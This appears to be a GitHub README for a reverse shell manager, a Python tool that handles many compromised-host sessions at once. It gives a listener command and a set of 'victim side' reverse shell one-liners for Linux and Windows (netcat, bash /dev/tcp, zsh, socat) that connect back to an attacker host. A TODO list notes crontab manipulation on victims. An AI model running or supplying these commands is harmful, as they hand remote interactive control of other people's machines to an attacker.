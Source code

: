 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```

#### :heavy_exclamation_mark: :heavy_exclamation_mark: :heavy_exclamation_mark: 
**This project will not continue develope anymore.**  
**The next generation of this project (Platypus) has been released at https://github.com/WangYihang/Platypus**  

#### [**Platypus**](https://github.com/trhacknon/Platypus)
  * More stable
  * More features
  * Upgrade common reverse shell session to full interactive seession
  * Reverse shell as a Service
  * RESTful API
  * ...

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()

#### LICENSE

```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc

Wang Yihang
```
